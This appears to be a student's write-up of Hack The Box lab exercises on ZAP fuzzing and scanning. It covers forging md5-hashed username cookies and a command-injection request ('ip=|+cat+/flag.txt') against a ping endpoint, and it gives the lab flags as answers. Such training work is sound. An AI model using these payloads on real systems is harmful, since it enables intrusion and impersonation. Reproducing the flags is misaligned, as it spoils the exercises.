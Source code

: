 **The directory we found above sets the cookie to the md5 hash of the username, as we can see the md5 cookie in the request for the (guest) user. Visit '/skills/' to get a request with a cookie, then try to use ZAP Fuzzer to fuzz the cookie for different md5 hashed usernames to get the flag. Use the "top-usernames-shortlist.txt" wordlist from Seclists.**

Results: HTB{fuzz1n6_my_f1r57_c00k13}

### ZAP Scanner

**Run ZAP Scanner on the target above to identify directories and potential vulnerabilities. Once you find the high-level vulnerability, try to use it to read the flag at '/flag.txt'**. 

The vulnerable endpoint contains a command injection vulnerability. This is the request: 

```
GET /devtools/ping.php?ip=|+cat+/flag.txt HTTP/1.1
Host: 94.237.54.253:52356
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://94.237.54.253:52356/index.php/2021/08/11/customer-support/
Upgrade-Insecure-Requests: 1

```

And this is the response:

```
HTTP/1.1 200 OK
Date: Tue, 22 Oct 2024 16:54:31 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 156
Connection: close
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>

<html lang="en">

<head>
  <meta charset="UTF-8">
  <title>Ping</title>
</head>

<body>
  HTB{5c4nn3r5_f1nd_vuln5_w3_m155}
</body>

</html>
```

Results: HTB{5c4nn3r5_f1nd_vuln5_w3_m155}
